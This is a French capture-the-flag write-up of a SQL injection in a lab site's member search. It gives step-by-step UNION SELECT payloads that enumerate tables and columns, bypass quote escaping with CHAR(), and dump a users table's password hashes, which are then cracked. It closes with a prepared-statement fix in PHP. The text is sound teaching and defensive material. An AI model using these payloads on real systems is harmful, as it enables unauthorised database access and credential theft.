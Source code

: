 ### Comment la faille a été trouvée:

1. De retour sur la page d'accueil, on clique sur "Members". On tombe sur une barre de recherche.
2. On écrit `'` dans la barre de recherche puis valide. On obtient ce message d'erreur:
*"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1"*
3. Cela nous indique que l’input n’est pas filtré.
On va essayer de recuperer la tag avec l'injection UNION. Pour cela il faut d'abord connaitre le nombre de
colonnes totales. 

### Comment la faille a été exploitée:

4. Nous allons procéder avec le  payload `ORDER BY`.
Nous commencons donc par `""`
J'obtiens : *"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\' ORDER BY 1--' at line 1"*
5. Ça signifie que l’apostrophe ' que l'on a ajouté n’est pas correctement "fermée".
La requête attendue ressemble probablement à `SELECT * FROM membres WHERE id = '$input';`
Et nous tentons cette approche `SELECT * FROM membres WHERE id = '' ORDER BY 1--';`.
Il y a une apostrophe de trop.
6. On ré-injecte `' ORDER BY 1 -- -`. Ici `-- -`, est utilisé pour mettre en commentaire tout ce qui pourrait suivre la commande SQL.
On obtient cette erreur *"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\' ORDER BY 1 -- -' at line 1"*. Cela nous dit que le serveur échappe automatiquement les apostrophes ' en les remplaçant par \', ce qui bloque l’injection classique.

7. Maintenant ca fonctionne (voir [1_ere_injection_reussie](./1_ere_injection_reussie.png)).
Nous répétons cette étape jusqu'à `1 ORDER BY 3 -- -`. On obtient cette erreur: *"Unknown column '3' in 'order clause'"*

8. Nous avons donc un tableau à 2 colonnes. Nous allons maintenant procéder à une requête UNION pour récupérer les
infos du tableau : `1 UNION SELECT 1,2 -- -` (voir [2_eme_injection_reussie](./2_eme_injection_reussie.png))
On sait maintenant que la conne 1=First Name et la colonne 2=Surname

9. Maintenant on va essayer d'afficher le nom des tables a travers Firstname:
`1 UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema = database() -- -`
(voir [3_eme_injection_reussie](./3_eme_injection_reussie.png))

10. Donc il y a une table nommée `users` dans la base.
On va chercher a afficher les differentes colonnes dans la table `Users` avec:
`1 UNION SELECT column_name, 2 FROM information_schema.columns WHERE table_name = CHAR(117,115,101,114,115) -- -`
On utilise `CHAR(117,115,101,114,115)` (=user) car sinon on recoit une erreur. "\'" n'est pas bien interprété si
écrit en brut.

11. On découvre toutes les colonnes de la table users (voir [4_eme_injection_reussie](./4_eme_injection_reussie.png)).
*Colonnes: user_id, first_name, last_name, town, country, planet, Commentaire, countersign.*

11. On ne voit pas de colonne explicitement appelée flag, mais:
Dans les CTFs pédagogiques, le flag est souvent caché dans une colonne “innocente”, comme : *comment, description, message, ou ici → Commentaire*
Pour afficher les données de la colonne: `1 UNION SELECT Commentaire, 2 FROM users -- -`

12. On obtient la liste des données associées à `Commentaire` (voir [5_eme_injection_reussie](./5_eme_injection_reussie.png))
On peut lire pour le dernier élément: *"Decrypt this password -> then lower all the char. Sh256 on it and it's good"*

13. On peut obtenir le password mentionné dans la colonne countersign (synonyme de "mot de passe").
On fait: `1 UNION SELECT countersign, 2 FROM users -- -`
On obtient pour le même index de l'indice: 5ff9d0165b4f92b14994e5c685cdce28 (voir [6_eme_injection_reussie](./6_eme_injection_reussie.png))

14. On met le hash dans:
https://crackstation.net/ (voir [7](./7.png))
On obtient le password en brut: `"FortyTwo"` que l'on met en minuscule => `"fortytwo"`.

15. Et enfin on aplique le hachage Sh256 via https://emn178.github.io/online-tools/sha256.html
Ce qui nous donne le flag ! (voir [8](./8.png))

### Comment la faille peut être corrigée:

16. Problème: Aucun parsing n'est fait sur l'input utilisateur.
Ne plus faire une phrase complète en collant les morceaux (commande + input utilisateur).

Mais d'abord envoyer la commande de base: `SELECT * FROM users WHERE id = ?`
Puis ensuite remplace ? par la valeur transmise (= plus considere comme un bout de commande), 

En **php** ca se traduirait par:
```php
$input = "1 OR 1=1";
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?"); // commande de base
$stmt->execute([$input]); // input utilisateur
```